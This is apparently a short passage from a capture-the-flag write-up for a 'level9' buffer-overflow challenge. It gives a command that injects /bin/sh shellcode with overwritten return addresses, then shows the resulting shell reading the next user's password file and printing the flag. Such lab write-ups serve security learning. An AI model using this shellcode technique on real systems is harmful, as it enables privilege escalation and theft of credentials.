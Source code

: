 ```gdb

Breakpoint 1, 0x0804867c in main ()
```

## payload

Using [this](https://www.exploit-db.com/exploits/42428) shellcode:
```shell-session
./level9 $(python -c "print '\x10\xa0\x04\x08' + '\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + 'B' * 80 + '\x0c\xa0\x04\x08'")
#                           |address-in-eax+4| + |------------------------------------------------------------------------------------------------| + |padding|+ |-address-in-eax-|
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
